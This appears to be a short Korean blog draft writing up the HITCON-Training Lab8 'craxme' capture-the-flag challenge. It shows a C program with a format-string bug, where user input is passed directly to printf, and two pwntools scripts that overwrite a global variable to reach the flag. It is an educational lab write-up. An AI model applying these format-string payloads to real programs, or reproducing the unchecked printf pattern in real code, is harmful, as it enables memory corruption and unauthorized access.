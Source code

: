 ```yaml
---
title: "[HITCON-Training]Lab8"
date: 2019-11-17
ctf: HITCON-Training
layout: post
published : false
---
```


그냥 magic 값만 맞춰주면 풀리는 문제다.

```c
#include <stdio.h>

int magic = 0 ;

int main(){
	char buf[0x100];
	setvbuf(stdout,0,2,0);
	puts("Please crax me !");
	printf("Give me magic :");
	read(0,buf,0x100);
	printf(buf);
	if(magic == 0xda){
		system("cat /home/craxme/flag");
	}else if(magic == 0xfaceb00c){
		system("cat /home/craxme/craxflag");
	}else{
		puts("You need be a phd");
	}

}
```

pwn 모듈 사용해서 magic의 값을 0xFACEB00C로 바꿔주면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./craxme')
p = process('./craxme')

offset = 7
magic = 0x0804A038
#payload = fmtstr_payload(offset,{magic:0xDA})
payload = fmtstr_payload(offset,{magic:0xFACEB00C})
p.sendlineafter(':',payload)
p.interactive()
```

<br />

> exploit.py

```python
from pwn import *

e = ELF('./craxme')
p = process('./craxme')
offset = 7

payload = p32(0x0804A038)
payload += '%{}d'.format(214)
payload += '%{}$hhn'.format(offset)

p.sendlineafter(':',payload)
p.interactive()
```


